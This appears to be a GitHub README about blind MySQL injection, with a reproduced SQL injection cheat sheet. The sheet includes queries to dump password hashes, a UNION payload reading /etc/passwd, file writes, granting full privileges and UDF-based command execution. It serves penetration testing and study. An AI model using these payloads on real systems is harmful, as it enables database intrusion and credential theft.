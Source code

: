 # Refs


# Faster Blind MySQL Injection Using Bit Shifting
I've read the paper in https://www.exploit-db.com/papers/17073
and I've also developed a script to help us brute-force the data faster by using bit shifting method

The script's name "bit-shifting-sqli.py"
# Cheat sheet
1, https://portswigger.net/web-security/sql-injection/cheat-sheet

2,: http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet


| Version                      | SELECT @@version                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
|------------------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Comments                     | SELECT 1; #comment SELECT /*comment*/1;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| Current User                 | SELECT user(); SELECT system_user();                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| List Users                   | SELECT user FROM mysql.user; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| List Password Hashes         | SELECT host, user, password FROM mysql.user; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| Password Cracker             | John the Ripper will crack MySQL password hashes.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| List Privileges              | SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges; — list user privsSELECT host, user, Select_priv, Insert_priv, Update_priv, Delete_priv, Create_priv, Drop_priv, Reload_priv, Shutdown_priv, Process_priv, File_priv, Grant_priv, References_priv, Index_priv, Alter_priv, Show_db_priv, Super_priv, Create_tmp_table_priv, Lock_tables_priv, Execute_priv, Repl_slave_priv, Repl_client_priv FROM mysql.user; — priv, list user privsSELECT grantee, table_schema, privilege_type FROM information_schema.schema_privileges; — list privs on databases (schemas)SELECT table_schema, table_name, column_name, privilege_type FROM information_schema.column_privileges; — list privs on columns |
| List DBA Accounts            | SELECT grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE privilege_type = ‘SUPER’;SELECT host, user FROM mysql.user WHERE Super_priv = ‘Y’; # priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| Current Database             | SELECT database()                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| List Databases               | SELECT schema_name FROM information_schema.schemata; — for MySQL >= v5.0 SELECT distinct(db) FROM mysql.db — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| List Columns                 | SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| List Tables                  | SELECT table_schema,table_name FROM information_schema.tables WHERE table_schema != ‘mysql’ AND table_schema != ‘information_schema’                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| Find Tables From Column Name | SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = ‘username’; — find table which have a column called ‘username’                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| Select Nth Row               | SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 0; # rows numbered from 0 SELECT host,user FROM user ORDER BY host LIMIT 1 OFFSET 1; # rows numbered from 0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| Select Nth Char              | SELECT substr(‘abcd’, 3, 1); # returns c                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| Bitwise AND                  | SELECT 6 & 2; # returns 2 SELECT 6 & 1; # returns 0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| ASCII Value -> Char          | SELECT char(65); # returns A                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
| Char -> ASCII Value          | SELECT ascii(‘A’); # returns 65                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| Casting                      | SELECT cast(’1′ AS unsigned integer); SELECT cast(’123′ AS char);                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| String Concatenation         | SELECT CONCAT(‘A’,'B’); #returns AB SELECT CONCAT(‘A’,'B’,'C’); # returns ABC                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| If Statement                 | SELECT if(1=1,’foo’,'bar’); — returns ‘foo’                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| Case Statement               | SELECT CASE WHEN (1=1) THEN ‘A’ ELSE ‘B’ END; # returns A                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| Avoiding Quotes              | SELECT 0×414243; # returns ABC                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| Time Delay                   | SELECT BENCHMARK(1000000,MD5(‘A’)); SELECT SLEEP(5); # >= 5.0.12                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| Make DNS Requests            | Impossible?                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| Command Execution            | If mysqld (<5.0) is running as root AND you compromise a DBA account you can execute OS commands by uploading a shared object file into /usr/lib (or similar). The .so file should contain a User Defined Function (UDF).  raptor_udf.c explains exactly how you go about this. Remember to compile for the target architecture which may or may not be the same as your attack platform.                                                                                                                                                                                                                                                                                                                                             |
| Local File Access            | …’ UNION ALL SELECT LOAD_FILE(‘/etc/passwd’) — priv, can only read world-readable files. SELECT * FROM mytable INTO dumpfile ‘/tmp/somefile’; — priv, write to file system                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| Hostname, IP Address         | SELECT @@hostname;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| Create Users                 | CREATE USER test1 IDENTIFIED BY ‘pass1′; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| Delete Users                 | DROP USER test1; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| Make User DBA                | GRANT ALL PRIVILEGES ON *.* TO test1@’%'; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
| Location of DB files         | SELECT @@datadir;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| Default/System Databases     | information_schema (>= mysql 5.0) mysql                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
